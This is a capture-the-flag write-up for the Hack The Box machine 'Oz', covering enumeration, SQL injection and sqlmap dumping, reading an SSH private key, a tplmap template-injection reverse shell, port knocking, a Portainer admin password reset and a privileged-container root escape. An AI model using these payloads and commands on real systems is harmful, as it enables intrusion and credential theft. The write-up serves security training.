 ```yaml
---
layout: post
title: Hack The Box - Oz
categories: hack-the-box
tags: [Linux, Web, SQLI, ssti, ssh, Pivoting]
image: /hackthebox/oz/0.png
---
```


<hr>
### Quick Summary 
#### Hey I'm back with another Hack The Box write-up , this time Oz has retired and it was rated as a hard box. I enjoyed this box , it was really fun. It had some docker tricks which were very cool , It's a linux box and it's ip is 10.10.10.96 so let's jump right in.
#### Check out my [other Hack The Box write-ups](/categories) 
![](/images/hackthebox/oz/0.png)
<hr>
### Nmap
#### As always we will start by running nmap to scan for open ports and services.
`nmap -sV -sT -o nmapinitial oz.htb`
#### Note : I added the ip to my /etc/hosts file as oz.htb
![](/images/hackthebox/oz/1.png)
#### And we see only http on port 80 and 8080. We also see that it's running a python server.
<br>
<hr>
### Enumerating http
#### On port 80 there's a web page with the title "OZ Webapi" and it's asking us to register a username.
![](/images/hackthebox/oz/2.png)
#### On port 8080 we see a login page.
![](/images/hackthebox/oz/3.png)
#### If we tried running gobuster on port 80 to find hidden dirs and files we will get a wildcard response.
![](/images/hackthebox/oz/4.png)
#### And that's because the server doesn't respond with 404. Instead of 404 , when we request a non-existing page the server responds with a line of random chars.
#### Here I requested `http://oz.htb/anything`
![](/images/hackthebox/oz/5.png)
#### And this makes it hard to enumerate because we will always get a 200 response. So what are we going to do is to use wfuzz to filter the responses for us.
`wfuzz -u http://oz.htb/FUZZ/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hl 0`
#### This won't show us any response with 0 lines.
![](/images/hackthebox/oz/6.png)
#### After a few seconds we get /users/
<br>
<hr>
### SQL Injection
#### When we visit /users/ in the browser we get the default response : please register a username.
![](/images/hackthebox/oz/7.png)
#### So we have /users/ which is a valid path , what happens if we tried a username that probably exists, something like admin ?
![](/images/hackthebox/oz/8.png)
#### We get a json response `username : "admin"` 
#### Let's try a single quote `'`
![](/images/hackthebox/oz/9.png)
#### We get 500 Internal Server Error, So this endpoint is probably vulnerable to SQL injection , Let's try something else , `'OR 1 OR'`
![](/images/hackthebox/oz/10.png)
#### We get another username : "dorthi" , So this is a confirmation that it's vulnerable to sqli , Let's do another injection and see if we can enumerate users 
`' or length(username)='4`
![](/images/hackthebox/oz/11.png)
#### Another username : "toto"
#### Let's try 7 
![](/images/hackthebox/oz/12.png)
#### tin.man 
#### So we confirmed it's sqli , The next step is to use sqlmap.
`sqlmap -u http://10.10.10.96/users/toto --all`
#### This will dump the whole database
![](/images/hackthebox/oz/13.png)
#### After some time it will start dumping tables and we will notice an interesting table `users_gbw`
![](/images/hackthebox/oz/14.png)
#### So if we try to crack those hashes the only one that will crack is wizard.oz : `wizardofoz22`
#### Now we have a username and its password let's login to port 8080
![](/images/hackthebox/oz/15.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/16.png)
#### And success !
<br>
<hr>
### Dorthi's ssh key
#### We login to something that looks like a ticketing system, After reading the tickets we will find 2 interesting tickets.
![](/images/hackthebox/oz/17.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/18.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/19.png)
#### So this ssh key is on the database and we have sqli on that database , Let's grab it.
`sqlmap -u "http://10.10.10.96/users/toto" --string "username" --file-read "/home/dorthi/.ssh/id_rsa" -v1`
![](/images/hackthebox/oz/20.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/21.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/22.png)
#### Cool so now we can ssh and own user, No wait ...
#### By looking at the nmap scan again:
![](/images/hackthebox/oz/1.png)
#### There's no ssh listening !
<br>
<hr>
### Server Side Template Injection
#### If we return to that ticketing system we will see that we can add a ticket , it asks us for a name and a description.
![](/images/hackthebox/oz/23.png)
#### By capturing that request in burp we will see a POST request with two parameters name and desc.
![](/images/hackthebox/oz/24.png)
#### And the response outputs them.
![](/images/hackthebox/oz/25.png)
#### If we used [tplmap](https://github.com/epinna/tplmap) (a tool like sqlmap for automatic template injection exploitation) we will find that it's vulnerable.
`python tplmap.py -u 'http://10.10.10.96:8080' -X POST -d 'name=*&desc=anything' -c 'token=TOKEN' --reverse-shell 10.10.xx.xx 1337`
![](/images/hackthebox/oz/26.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/27.png)
#### Then we check our listener , we will get a reverse shell.
<br>
<hr>
### Knock , Knock
#### After some enumeration we will find in `/` two unusual dirs `containers` and `.secret` , in `.secret` there is a file called `knockd.conf` 
![](/images/hackthebox/oz/28.png)
#### That's a configuration file for ssh port knocking, Port knocking means that in order to connect to an ssh server you need to ping some ports in a specific sequence to be able to connect.
![](/images/hackthebox/oz/29.png)
#### In our situation the ports are 40809 50212 46969 and all of them are udp
#### In the other dir `containers` there's a dir called `database` which has some files, One of them is called `start.sh`
![](/images/hackthebox/oz/30.png)
#### And we grabbed some passwords maybe we will need them later.
#### Now we know the port sequence let's ssh into the box. We can use knockd to do that but I used a small script that uses nmap.
![](/images/hackthebox/oz/31.png)
#### We `chmod 600` to the key then execute our script.
![](/images/hackthebox/oz/32.png)
#### The key is protected with a password , Let's try the db password we found earlier : "N0Pl4c3L1keH0me"
![](/images/hackthebox/oz/33.png)
#### And we owned user ! 
<br>
<hr>
### Portainer
#### After some regular enumeration if we do sudo -l we will find that dorthi can run some commands as root `docker network ls` and `docker network inspect *`
![](/images/hackthebox/oz/34.png)
#### Let's first list the networks 
`sudo docker network ls`
![](/images/hackthebox/oz/35.png)
#### We see some networks let's inspect the first one `bridge`
`sudo docker network inspect bridge`
![](/images/hackthebox/oz/36.png)
#### We find `portainer-1.11.1` and its ip is `172.17.0.2` , Portainer is the user interface for docker management and it usually runs http on port 9000 , we can also check that by using nmap. Luckily it's installed on the box.
![](/images/hackthebox/oz/37.png)
#### And we see that port 9000 is listening , so now we need to set up an ssh port forwarding to be able to access that portainer.
#### We can edit the ssh port knocking script to add the forwarding command.
![](/images/hackthebox/oz/38.png)
#### Now when we visit localhost on port 9000 we get a login page.
![](/images/hackthebox/oz/39.png)
#### By using the HTTP API as documented [here](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) we can re-assign the admin password by sending a POST request to `/api/users/admin/init` with data as : `{"username":"admin","password":"new-password"}`
#### I did it with burp and set the password to `l0c4l` :
![](/images/hackthebox/oz/40.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/41.png)
<br>
<hr>
### Root
#### After we login we will see the dashboard showing the status of the containers.
![](/images/hackthebox/oz/42.png)
#### In the containers tab there are 4 container running.
![](/images/hackthebox/oz/43.png)
#### If we check the container webapi we can use its console.
![](/images/hackthebox/oz/44.png)
#### We can create a new container with the image of webapi and mount `/root` or the whole filesystem `/` then use the console to access it.
#### First we will grab the image name from the images tab : "webapi:latest"
![](/images/hackthebox/oz/45.png)
#### Then we will create a container and name it anything , I named it "NiceContainer" , add the image , then add a volume with path `/root` and mount it to /mnt/ 
![](/images/hackthebox/oz/46.png)
#### Then from the security tab we choose privileged mode.
![](/images/hackthebox/oz/47.png)
#### Click create , Use the console , `cd /mnt` and we own root ! :D
![](/images/hackthebox/oz/48.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Waldo](/hack-the-box/waldo/)
#### Next Hack The Box write-up : [Hack The Box - SecNotes](/hack-the-box/secnotes/)
<hr>
